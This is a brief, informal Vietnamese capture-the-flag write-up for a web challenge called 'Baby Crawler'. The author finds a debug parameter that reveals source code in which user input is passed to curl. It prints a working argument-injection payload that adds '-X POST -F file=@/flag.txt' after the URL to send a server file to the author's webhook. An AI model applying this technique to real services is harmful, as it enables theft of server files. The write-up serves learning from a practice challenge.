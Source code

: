 - tiêu đề : Baby Crawler = baby cute 
- nội dung : chả có cái me gì 

- trước tiên thì mình view và dùng thử tính năng của web 
- cảm giác nó đang curl lấy dữ liệu của web mình nhập vào và lưu ở cái ./cache/oằn tà là vằn 

![Alt text](<../image/15.1.png>)

- mình mở f12 lên đọc thử thấy có comment ?debug :> nghi nghi òi 
- và thử thêm ?debug vào pem có ngay source 

![Alt text](<../image/15.2.png>)

- uhm đoạn source này quan trọng mỗi từ if(isset)... 
- đọc thì mình thấy họ đang curl + userinput ( đã được escapeshellcmd nên không nối dài để cmdi được nha )
- thì curl ròi thì lợi dụng thoi 
- mình curl thử đến webhook của mình và thấy thành công nhận được gói tin 
- giờ test chút để bypass thằng strpos($url ,'http') vì nếu http không ở đầu là sai luôn nhé 

![Alt text](<../image/15.3.png>)

- okay mình thấy để -F ra sau cũng không vấn đề gì và bỏ "" ở đường dẫn sau @ cũng không vấn đề gì 
- giờ pem lệnh http://webhook -X POST -F file=@/flag.txt 

![Alt text](<../image/15.4.png>)
- download về mở hoi 
![Alt text](<../image/15.5.png>)

- và lụm cờ lụm cờ 

#hackerga2101: